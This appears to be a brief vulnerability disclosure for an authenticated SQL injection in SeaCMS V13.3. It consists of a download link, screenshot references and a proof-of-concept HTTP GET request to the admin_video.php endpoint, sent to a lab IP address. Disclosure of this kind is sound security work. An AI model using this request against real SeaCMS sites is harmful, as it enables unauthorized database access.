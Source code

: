 Seacms V13.3 has an SQL injection vulnerability that allows an authenticated attacker to exploit the database.

Download address：https://www.seacms.com/download/



![image-20250114112520038](images/image-20250114112520038.png)







```
GET /seacms/51fek7/admin_video.php?repeat=ok&order=v_name&rlen=2 HTTP/1.1
Host: 192.168.80.152
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
DNT: 1
Referer: http://192.168.80.152/seacms/bf6nbn/admin_datarelate.php?action=repeat
Cookie: PHPSESSID=s5fhh9q24e7k8rjpi28g6o3j40
Connection: keep-alive


```

![image-20250114111412256](images/image-20250114111412256.png)



